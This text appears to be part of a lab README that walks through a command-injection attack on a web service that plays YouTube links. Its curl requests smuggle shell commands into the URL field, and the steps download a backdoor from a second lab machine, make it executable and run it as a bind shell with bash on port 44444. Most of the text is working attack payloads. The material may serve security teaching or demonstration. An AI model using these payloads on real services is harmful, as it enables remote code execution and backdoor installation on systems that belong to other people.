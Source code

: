 ### Attack stage (all-in-one-script)

* From `vm1` run, 

  ```bash
  python ~/bin/attack.py
  ```

#### Manual attack (didn't try this)

* If the above attack steps doesn't work, you can try the following.

* Playing Youtube clip (Normal behavior). Confirming the set-up is correct and
  remote command runs.
* Run the following commands from `vm1`.
  ```bash
  curl -X POST -H "Content-Type: application/json" -d 'YouTubeAddr=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Dx4TDulEu_jI%26start_radio%3D1%26list%3DRDMMx4TDulEu_jI' http://vm0:8000
  ```

* Playing Youtube clip with command line injection (Abnormal behavior)
  * Downloading backdoor program

    ```bash
    curl -X POST -H "Content-Type: application/json" -d 'YouTubeAddr=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Dx4TDulEu_jI%26start_radio%3D1%26list%3DRDMMx4TDulEu_jI%3B%2Fusr%2Fbin%2Fcurl%20http%3A%2F%2Fvm1%3A8081%2Fbdoor%20-o%20%2Ftmp%2Fbdoor' http://vm0:8000
    ```

  * The above command injects the following command.
    ```bash
    /usr/bin/curl http://vm1:8081/bdoor -o /tmp/bdoor
    ```

  * Change permission of backdoor program
    ```bash
    curl -X POST -H "Content-Type: application/json" -d 'YouTubeAddr=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Dx4TDulEu_jI%26start_radio%3D1%26list%3DRDMMx4TDulEu_jI%3Bchmod%20777%20%2Ftmp%2Fbdoor' http://vm0:8000
    ```

  * The above command injects the following command.

    ```bash
    chmod 777 /tmp/bdoor
    ```

  * Run the backdoor program and open a port (44444) to outside.

    ```bash
    curl -X POST -H "Content-Type: application/json" -d 'YouTubeAddr=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Dx4TDulEu_jI%26start_radio%3D1%26list%3DRDMMx4TDulEu_jI%3B%2Ftmp%2Fbdoor%20-l%20-p%2044444%20-e%20%2Fbin%2Fbash' http://vm0:8000
    ```

  * The above command injects the following command.

    ```bash
    /tmp/bdoor -l -p 44444 -e /bin/bash
    ```
